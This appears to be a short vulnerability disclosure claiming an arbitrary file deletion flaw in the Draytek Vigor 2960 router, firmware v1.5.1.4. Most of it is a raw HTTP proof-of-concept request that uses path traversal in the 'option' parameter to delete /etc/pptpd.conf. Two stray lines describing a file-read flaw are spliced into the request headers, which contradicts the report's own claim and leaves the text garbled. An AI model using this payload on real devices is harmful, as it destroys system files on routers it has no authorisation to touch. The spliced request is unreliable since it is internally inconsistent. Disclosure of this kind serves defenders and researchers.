


# Draytek vigor 2960 v1.5.1.4 has arbitrary file deletion vulnerability

## OverView

Product: Draytek Vigor 2960 v1.5.1.4(the newest version)
Firmware: v1.5.1.4 https://fw.draytek.com.tw/Vigor2960/Firmware/v1.5.1.4/Vigor2960_v1.5.1.4.zip

## Detail  

It doesn’t filter var opion , so we can use /../ to path traversal. As a result, it will delete the specific file.
You can see the screenshot. The file etc/pptpd.conf is disappear, after we send poc.



## poc 

```
POST /cgi-bin/mainfunction.cgi HTTP/1.1
Host: xxxxxxxx
Content-Length: 63
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
sub_1DF14 contains arbitrary file read vulnerability
It doesn’t filter the var option , so we can use /../ to read arbitrary file.
Accept: */*
Origin: xxxxxxx
Referer: xxxxxx
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: SESSION_ID_VIGOR=7:26EB81E4EA6DC603661320EBD1C938DC
Connection: close
action=dumpSyslog&option=/../etc/pptpd.conf&rtick=1663484341535
```


